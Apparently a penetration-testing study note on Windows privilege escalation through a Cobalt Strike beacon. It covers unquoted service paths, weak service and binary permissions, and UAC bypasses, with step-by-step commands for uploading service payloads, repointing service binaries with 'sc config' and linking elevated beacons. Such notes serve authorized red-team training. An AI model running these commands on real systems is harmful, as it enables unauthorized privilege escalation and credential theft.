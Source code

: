 # Host Privilege Escalation

Not always needed, but helps in lateral movement and doing high-priv naughty things. It should only be sought if it provides a means of reaching a goal, not something done for ego or cred. Some capabilities that can be done:

* Dumping creds with Mimikatz
* Sneaky persistence
* Manipulating host configuration (e.g. firewall)

Common entrypoints include software misconfigurations and missing patches. [SharpUp](https://github.com/GhostPack/SharpUp) can enumerate these.

## Windows Services

Just a startup application run by the OS. How to see:

* Open services.msc
* Command line: ```sc query```
* PS: ```Get-Service | fl```

Properties to look for:

* Binary Path
* Startup Type
* Service Status
* Log On As - highly-privileged services make escalation easy (need to restart service to apply -- sometimes need to wait until machine is restarted)
* Dependants/Dependencies

Remember to restore the service configuration once you are done.

## Unquoted Service Paths

The path to the service binary is not wrapped in quotes. Under specific conditions it can lead to an elevation of privilege.

From beacon: ```run wmic service get name, pathname```
If see something unquoted like ```VulnService1    C:\Program Files\Vulnerable Services\Service 1.exe```, vulnerable places to drop a binary (which would run before the real exe) would be:
1. C:\**Program.exe**
2. C:\Program Files\**Vulnerable.exe**
3. C:\Program Files\Vulnerable Services\**Service.exe**

Check for permission to write to those directories from beacon: ```powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl```

Or just use SharpUp: ```execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath```

Payloads that work here are the ones with ```svc``` in the name to be service binaries. Recommend using TCP beacons bound to localhost only for privilege escalations. The new beacon does not appear in the UI automatically, but should see the port used in the TCP listener is listening on 127.0.0.1. Then ```connect localhost <port>``` to link to beacon. To restore the service, simply delete Service.exe and restart the service.

## Weak Service Permissions

SharpUp may shows that a service is modifiable, but need to know what permissions are. [Get-ServiceAcl](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls) does this. From beacon: ```powershell Get-ServiceAcl -Name VulnService | select -expand Access```. Look for ChangeConfig, Start, and Stop privs.

From beacon:
1. ```run sc qc VulnService``` - validate path
2. ```mkdir C:\Temp```
3. ```cd C:\Temp```
4. ```upload C:\Payloads\tcp-local_x64.svc.exe```
5. ```run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe```
6. ```run sc qc VulnService``` - validate changed path
7. ```run sc stop VulnService```
8. ```run sc start VulnService```
9. ```connect localhost <port>```
10. To restore the original path: ```run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"```

## Weak Service Binary Permissions

For when the weak permissions are on the service binary itself.

PS: ```Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl```  If this shows Modify privileges over a binary, can overwrite it (make backup first) from beacon, e.g.: ```upload C:\Payloads\Service 3.exe```. If get an error, might need to stop the service (then restart it after replacing): ```run sc {stop|start} VulnService3```

## UAC Bypasses

Want to allow a medium priv process to elevate itself or spawn a new process with high priv, without prompting the user. A beacon has a few built-in UAC bypasses (exposed via the elevate command) with more in the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit):

* ```elevate uac-schtasks tcp-local```


